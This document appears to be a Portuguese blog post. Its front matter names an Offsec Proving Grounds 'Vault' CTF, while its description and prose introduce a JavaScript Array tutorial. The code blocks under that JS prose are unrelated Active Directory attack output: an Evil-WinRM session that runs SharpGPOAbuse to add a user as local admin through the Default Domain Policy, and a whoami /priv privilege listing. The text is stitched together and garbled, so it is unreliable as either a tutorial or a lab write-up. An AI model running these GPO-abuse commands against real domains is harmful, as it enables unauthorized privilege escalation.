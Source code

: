 ```yaml
---
level: 0
subjects: ["CTF"]
title: "Offsec Proving Grounds — Vault"
language: "pt-br"
translations: ["pt-br"]
date: "2019-08-05T00:00:00.000Z"
description: "Desmascarando Array em JS"
imageNameKey : "array"
---
```


# Introdução

Como todo bom escritor de artigos JS, eu vou ter que escrever a minha série `Map, Filter e Reduce`. Mas to pensando em ser um pouco diferente da maioria de todos os artigos e fazer um deep dive do pacote `Array`. Sem mais delongas, vamos lá.

# Array

Criar um Array em JS é simples, se liga só

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
[+] Domain = vault.offsec
[+] Domain Controller = DC.vault.offsec
[+] Distinguished Name = CN=Policies,CN=System,DC=vault,DC=offsec
[+] SID Value of anirudh = S-1-5-21-537427935-490066102-1511301751-1103
[+] GUID of "Default Domain Policy" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] File exists: \\vault.offsec\SysVol\vault.offsec\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] The GPO does not specify any group memberships.
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

Ambas as formas criam um array, porém é mais comum você ver a primeira forma sendo usada. Instanciando um array com `Array` você terá algumas implicações. Exemplo

```sh
*Evil-WinRM* PS C:\Users\anirudh\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabl
```
